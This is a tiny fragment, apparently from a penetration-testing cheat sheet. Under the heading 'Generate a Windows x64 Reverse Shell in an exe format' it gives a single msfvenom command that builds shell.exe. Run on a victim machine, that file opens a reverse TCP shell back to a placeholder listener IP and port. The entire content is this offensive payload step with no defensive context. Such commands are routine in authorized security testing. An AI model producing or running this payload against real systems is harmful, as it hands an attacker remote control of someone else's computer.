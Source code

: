 Generate a Windows x64 Reverse Shell in an exe format
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
